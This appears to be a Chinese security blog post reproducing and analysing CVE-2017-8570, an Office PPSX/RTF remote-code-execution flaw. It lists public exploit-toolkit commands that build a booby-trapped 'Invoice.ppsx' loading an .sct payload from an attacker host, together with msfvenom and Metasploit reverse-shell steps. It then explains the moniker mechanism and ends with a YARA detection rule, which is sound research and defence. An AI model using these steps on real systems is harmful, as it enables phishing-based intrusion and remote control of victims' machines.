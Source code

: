 

layout:     post
title:      APT常用文档漏洞--CVE-2017-8570
subtitle:   CVE-2017-8570
date:       2018-11-05
author:     DC
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:

    - CVE-2017-8570
        - RCE
        - VUL

# CVE-2017-8570

总结之前复现处理过的文档类CVE 开源文档(8570基本上就是0199的补丁没有打全时的利用方式，并没有) [1](https://github.com/rxwx/CVE-2017-8570) [2](https://github.com/tezukanice/Office8570)

#### 漏洞简介：

		该漏洞为Microsoft Office的一个远程代码执行漏洞。其成因是`Microsoft PowerPoint`执行时会初始化`Script”Moniker`对象，而在`PowerPoint`播放动画期间会`激活`该对象，从而执行`sct`脚本（Windows Script Component）文件。攻击者可以欺骗用户运行含有该漏洞的PPT文件，导致获取和当前登录用户相同的代码执行权限。
	
		影响版本

```
Microsoft Office 2007 Service Pack 3
Microsoft Office 2010 Service Pack 2 (32-bit editions)
Microsoft Office 2010 Service Pack 2 (64-bit editions)
Microsoft Office 2013 RT Service Pack 1
Microsoft Office 2013 Service Pack 1 (32-bit editions)
Microsoft Office 2013 Service Pack 1 (64-bit editions)
Microsoft Office 2016 (32-bit edition)
Microsoft Office 2016 (64-bit edition)
```

#### 漏洞利用方式：

		采用了别人写好的脚本程序，分为三类利用方法：

```shell
# python cve-2017-8570_toolkit.py -h

用来生成EXP文档 (Microsoft Office PPSX RCE)

模式:

-M gen                                          只生成 exp 文档

     Generate malicious PPSX file:

      -w <Filename.ppsx>                   生成文件名字

      -u <http://attacker.com/test.sct>   提供sct载荷路径
                                      For example, http://attackerip.com/test.sct，在启动文档被请求
			      
-M exp                                          exp模式

     Exploitation:
 
      -H </tmp/custom.sct>                提供本地自定义sct文件路径进行装载
                                          NOTE: This option will not deliver payloads specified through options "-e" and "-l"
					  
      -p <TCP port:Default 80>            本地监听端口

      -e <http://attacker.com/shell.exe>  指定payload的路径The path of an executable file / meterpreter shell / payload  which needs to be executed on target.

      -l </tmp/shell.exe>                 本地载荷指定路径If payload is hosted locally, specify local path of an executable file / meterpreter shell / payload.
```

1. 本地载荷提供

   ```
   1) 生成封装好恶意代码的文档
      # python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.56.1/logo.doc
   2) 基于MSF 生成反弹shell程序，如果是x64 要用x64 的反弹shell . 然后执行msf监听
      # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
      # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
   3) 使用本地程序进行 服务提供进行监听，提供文件服务本地载荷
      # python cve-2017-8570_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe
   ```

 2.远程载荷提供

```
1) 生成封装好恶意代码的文档
   # python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.56.1/logo.doc
2) 启动远程载荷监听
   # python cve-2017-8570_toolkit.py -M exp -e http://remoteserver.com/shell.exe
```

3.自定义SCT文件

```
1) 生成封装好恶意代码的文档
   # python cve-2017-8570_toolkit.py -M gen -w Invoice.ppsx -u http://192.168.56.1/logo.doc
2) 启动 监听 并 采用自定义sct 文件进行
   # python cve-2017-8570_toolkit.py -M exp -H /tmp/custom.sct
```

个人测试了几次 ，根据版本不同，失败成功不是特别稳定，应该取决于补丁版本

#### 漏洞分析：

			漏洞利用构造的两个关键点：

 			RTF文档在VISTA以后的系统中会自动释放Package对象到%tmp%目录的特性，在文档将恶意Scriptletfile（.sct）脚本文件以Package对象的方式插入，在受害者打开RTF文档后，Package对象中的Scriptletfile（.sct）脚本文件会自动释放到%tmp%目录下

			OLE2Link对象用来触发漏洞，漏洞触发成功后会直接加载%tmp%目录下的MUZTWOWEZTHOBKW.sct脚本执行包含漏洞的OLE2Link对象中使用了Composite Moniker来将“绑定”一个File Moniker，而File Moniker顾名思义会指定一个文件，漏洞样本中的File Moniker指定的是本地%tmp%目录中的sct脚本文件，而该sct脚本文件恰好是Package对象中释放出来的FileMoniker检测到加载的文件后缀是.sct后，通过COM接口加载执行Scriptletfile脚本文件
	
		     分析下其漏洞生成脚本 **cve-2017-8570_toolkit.py** 
	
		     generate_exploit_ppsx 模式下，shutil.copy2('template/template.ppsx', filename)  拷贝（0199的文档）然后，通过writestr 讲 ，写好的sct 脚本 写入替换package对象位置

ppt/slides/_rels/slide1.xml.rels 这个 进行replace 

```xml
 "<?xml version=\"1.0\" encoding=\"UTF-8\" standalone=\"yes\"?>\
	<Relationships xmlns=\"http://schemas.openxmlformats.org/package/2006/relationships\"><Relationship Id=\"rId3\" Type=\"http://schemas.openxmlformats.org/officeDocument/2006/relationships/oleObject\" Target=\"script:"+docuri+"\" TargetMode=\"External\"/><Relationship Id=\"rId2\" Type=\"http://schemas.openxmlformats.org/officeDocument/2006/relationships/slideLayout\" Target=\"../slideLayouts/slideLayout1.xml\"/><Relationship Id=\"rId1\" Type=\"http://schemas.openxmlformats.org/officeDocument/2006/relationships/vmlDrawing\" Target=\"../drawings/vmlDrawing1.vml\"/></Relationships>")
```

rtf 文档内存格式:

```
{\rt{\object\objemb\objw1\objh1{\*\objclass Package}{\*\objdata 01050000020000000***}
```



整个漏洞利用关键点



Composite Moniker对象的作用是可以将某个Moniker对象定义为一个新的Moniker对象（NewMoniker），或者将多个Moniker对象进行组合，比如可以使用Composite Moniker对象将两个File Moniker对象组合成一个。假设Composite Moniker对象包含了两个File Moniker对象：



```
File Moniker 1："c:\work\art"File Moniker 2："..\backup\myfile.doc"
```



通过Composite Moniker对象进行组合后，相当于得到了一个带有完整文件路径的File Moniker对象：”c:\work\backup\myfile.doc”。

在触发漏洞的样本中有三个Moniker对象，分别是：



```
Composite Moniker：{00000309-0000-0000-C000-000000000046}File Moniker：{00000303-0000-0000-C000-000000000046}New Moniker：{ECABAFC6-7F19-11D2-978E-0000F8757E2A}
```

CompositeMoniker在将File Moniker定义为一个New Moniker新对象的过程中，会调用IMoniker::BindToObject方法将File Moniker进行Bind操作，IMoniker::BindToObject函数原型如下：



```
HRESULT BindToObject( [in]  IBindCtx *pbc, [in]  IMoniker *pmkToLeft, [in]  REFIID   riidResult, [out] void     **ppvResult );
```



pmkToLeft则指向File Moniker，File Moniker在样本中指定的文件为：%tmp%\MUZTWOWEZTHOBKW.sct，而由于FileMoniker需要初始化指定的文件，对象在检测到文件后缀后.sct后，会自动在注册表中查找处理.sct文件的接口：



确定.sct后缀

[![image.png](https://image.3001.net/images/20180130/15172816772165.png!small)](https://image.3001.net/images/20180130/15172816772165.png)

关联scriptletfile的CLISD

[![image.png](https://image.3001.net/images/20180130/15172816921778.png!small)](https://image.3001.net/images/20180130/15172816921778.png)

定位处理接口

[![image.png](https://image.3001.net/images/20180130/15172817082866.png!small)](https://image.3001.net/images/20180130/15172817082866.png)

查找到处理.sct文件的处理接口后，调用对应的接口启动.sct脚本执行环境，并执行脚本，栈回溯显示整个流程执行过程：



```
0:000> kChildEBP RetAddr  0037abe8 62e048ffjscript!CScriptRuntime::Run  <-- 执行.sct脚本0037ace4 62e04783 jscript!ScrFncObj::CallWithFrameOnStack+0x15f0037ad3c 62e04cc3jscript!ScrFncObj::Call+0x7b0037ade0 62e13797jscript!CSession::Execute+0x23d0037ae2c 62e10899jscript!COleScript::ExecutePendingScripts+0x16b0037ae48 6c61831fjscript!COleScript::SetScriptState+0x510037ae58 6c618464scrobj!ScriptEngine::Activate+0x1a0037ae70 6c6199d3scrobj!ComScriptlet::Inner::StartEngines+0x6e0037aec0 6c61986escrobj!ComScriptlet::Inner::Init+0x1560037aed0 6c61980bscrobj!ComScriptlet::New+0x3f0037aef0 6c6197d0 scrobj!ComScriptletConstructor::CreateScriptletFromNode+0x260037af10 6c623b7escrobj!ComScriptletConstructor::Create+0x4c0037af3c 6c612946scrobj!ComScriptletFactory::CreateInstanceWithContext+0x1150037af58 53c464bescrobj!ComBuiltInFactory::CreateInstance+0x190037afac 7601b573comsvcs!CNewMoniker::BindToObject+0x14f          <--New Moniker0037afe0 76083d8eole32!CCompositeMoniker::BindToObject+0x105      <-- Composite Moniker定义File Moniker0037b04c 31a82c6aole32!CDefLink::BindToSource+0x1bfWARNING: Stack unwind information notavailable. Following frames may be wrong.0037b090 3152f55ewwlib!wdGetApplicationObject+0x6cd2f0037b120 31473477wwlib!DllGetClassObject+0x158a4c0038031c 314667efwwlib!DllGetClassObject+0x9c965003831e03146501f wwlib!DllGetClassObject+0x8fcdd
```



yara 规则：

	关键点：	

1.  RTF文档

2. Composite Moniker对象
3. new_moniker 值

```yara
rule rtf_composite_moniker {
   meta:
      ref = "https://justhaifei1.blogspot.co.uk/2017/07/bypassing-microsofts-cve-2017-0199-patch.html"
   strings:
      $header_rtf = "{\\rt" nocase
      $composite_moniker = "0903000000000000C000000000000046" nocase
      $new_moniker = "C6AFABEC197FD211978E0000F8757E2A" nocase
   condition:
      $header_rtf at 0 and $composite_moniker and $new_moniker
}
```

则现在只要调用这样方法的样本均会被检出